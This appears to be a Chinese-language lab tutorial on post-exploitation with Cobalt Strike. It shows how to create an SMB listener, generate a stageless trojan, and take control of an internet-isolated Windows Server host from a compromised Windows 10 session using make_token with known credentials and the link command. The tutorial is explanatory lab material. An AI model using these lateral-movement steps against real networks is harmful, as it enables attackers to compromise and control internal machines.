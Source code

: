 - 
  要求：已拿到目标主机上传和执行的权限.目标主机放行445端口.知道目标主机的用户名和密码信息

- 使用场景：目标主机不出网，且已知目标主机用户名和密码进行上线

| 机器           | 类型    | IP            |
| -------------- | ------- | ------------- |
| 攻击机         | kali    | 192.168.70.4  |
| 已拿到权限靶机 | win10   | 192.168.70.10 |
| 不出网机器     | win2012 | 192.168.70.21 |

#### Cobalt Strike 新建 SMB 监听器

![image-20241008163127855](https://image.201068.xyz/assets/38.后渗透/image-20241008163127855.png)

![image-20241008163225205](https://image.201068.xyz/assets/38.后渗透/image-20241008163225205.png)

#### 使用 SMB 监听器生成无状态木马

![image-20241008165135505](https://image.201068.xyz/assets/38.后渗透/image-20241008165135505.png)

![image-20241008165014854](https://image.201068.xyz/assets/38.后渗透/image-20241008165014854.png)

![image-20241008165106591](https://image.201068.xyz/assets/38.后渗透/image-20241008165106591.png)

#### 开始上线

##### smb木马运行

将smb木马放到win2012靶机运行

![image-20241008171152609](https://image.201068.xyz/assets/38.后渗透/image-20241008171152609.png)

##### 制作令牌和连接SMB木马

在能和靶机连通的win10会话中**制作令牌**和**连接SMB木马**

```python
shell ipconfig /all
shell ping 192.168.70.21

make_token win2012 win2012
link 192.168.70.21
```

![image-20241008170259645](https://image.201068.xyz/assets/38.后渗透/image-20241008170259645.png)

![image-20241008170430131](https://image.201068.xyz/assets/38.后渗透/image-20241008170430131.png)

![image-20241008171323845](https://image.201068.xyz/assets/38.后渗透/image-20241008171323845.png)
